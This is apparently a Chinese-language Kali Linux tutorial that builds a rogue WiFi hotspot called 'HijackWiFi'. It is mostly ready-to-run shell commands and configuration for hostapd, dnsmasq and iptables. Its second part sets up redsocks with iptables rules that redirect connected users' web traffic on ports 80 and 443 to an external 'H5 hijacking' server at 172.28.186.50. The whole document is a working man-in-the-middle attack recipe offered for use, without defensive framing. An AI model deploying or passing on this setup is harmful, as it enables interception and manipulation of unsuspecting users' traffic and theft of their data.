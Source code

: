 # Kali从WiFi热点到H5劫持教程

## 创建WiFi热点

### 安装hostapd、dnsmasq、iptables

```shell
apt install -y hostapd dnsmasq iptables
```

### 初始化hostapd配置文件

```shell
cat > /etc/hostapd/hostapd.conf << EOF
interface=wlan0
driver=nl80211
ssid=HijackWiFi
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=1
wpa=2
wpa_passphrase=88888888
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
EOF
```

### 初始化hostapd默认读取的配置文件路径

```shell
cat > /etc/default/hostapd << EOF
DAEMON_CONF="/etc/hostapd/hostapd.conf"
EOF
```

### 初始化dnsmasq配置文件

```shell
cat > /etc/dnsmasq.conf <<EOF
interface=wlan0
dhcp-range=192.168.50.10,192.168.50.100,12h
EOF
```

### 给无线网卡分配IP

```shell
ip addr add 192.168.50.1/24 dev wlan0
ip link set wlan0 up
```

### 开启端口转发配置

```shell
cat >> /etc/sysctl.conf << EOF
net.ipv4.ip_forward=1
EOF
```

### 开启iptables转发配置

```shell
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i eth0 -o wlan0 -m state --state RELATED,ESTABLISHED -j ACCEPT
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
```

### 启动热点服务

```shell
systemctl restart dnsmasq
#debug调试用这个
hostapd /etc/hostapd/hostapd.conf
#后台启动用这个
systemctl restart hostapd
```

### 上网验证

使用手机连接wifi打开浏览器查看是否可用正常访问网页，访问成功则说明配置正常

## 转发流量到H5劫持服务

### 安装redsocks

```shell
apt install -y redsocks
```

### 创建redsocks配置转发http(s)流量

```shell
cat > redsocks.conf << EOF
base {
    log_info = on;
    log = "stderr";
    daemon = off;
    redirector = iptables;
}

redsocks {
    local_ip = 0.0.0.0;
    local_port = 8084;
    ip = 172.28.186.50;
    port = 8084;
    type = http-relay;
    //type = http-connect;
}
EOF
```

### 启动redsocks监听转发

```shell
redsocks -c redsocks.conf
```

### 将HTTP(S)流量重定向到redsocks

```shell
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8084
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8084
```

